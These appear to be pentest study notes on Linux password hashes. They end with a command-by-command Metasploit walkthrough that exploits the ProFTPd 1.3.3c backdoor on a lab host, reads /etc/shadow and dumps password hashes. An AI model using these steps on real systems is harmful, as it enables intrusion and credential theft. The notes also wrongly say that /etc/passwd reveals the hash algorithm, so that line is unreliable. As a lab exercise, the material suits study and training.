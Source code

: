 #### Password hashes
- Linux has multi-user support and as a result ,multiple usrs can access the system simultaneoulsy.This can be seen as both an advantages and disadvantages from a security perspective,in that, mulitple accounts offer multiple access vectors for attackers and therefore increase the overall risk of the sever.

- All the information for all accounts on Linux is stored in the passwd file located in :/etc/passwd
- We cannot view the passwords for the users in the passwd file because they encrypted and the passwd file is readable by any users on the system.

- All the encrypted passwords for the users are stored in the shadow file.It can be found in the following directory /etc/shadow
- The shadow file can only accessed and read by the root account,this is a very important security feature as it prevents other account on the system from accessing the hashed passwords.

#### Linux password Hashes
- The passwd file gives us information in regards to the hashing algorithm that is being used and password hash,this is very helpful as we are able to determine the type of hashing algorithm that is being used and its strenght.We can dtermine this by looking at the number after the username encapsulated by the dollar symbol
- $1 -> MD5
- $2 -> Blowfish
- $5 -> SHA-256
- $6 -> SHA-512


#### Exploit
- nmap -sV 192.168.10.3
- searchsploit ProFTPd [ this will show that this service is vulnerable ]
- msfconsole
- search proftpd
- use exploit/unix/ftp/proftpd_133c_backdoor
-  set everything requires
- this give a shell
- /bin/bash -i [ this give us bash shell ]
- ctrl + z [ to keep the session background ]
- sessions -u 2 [ go to meterpreter sessions ]
- cat /etc/shadow
- ctrl + z [background sessions ]
- search hash_dump
- use post/linux/gather/hashdump
- set SESSION 2 [ set meterpreter sessions ]
- run 
- this will give us passwords hashes

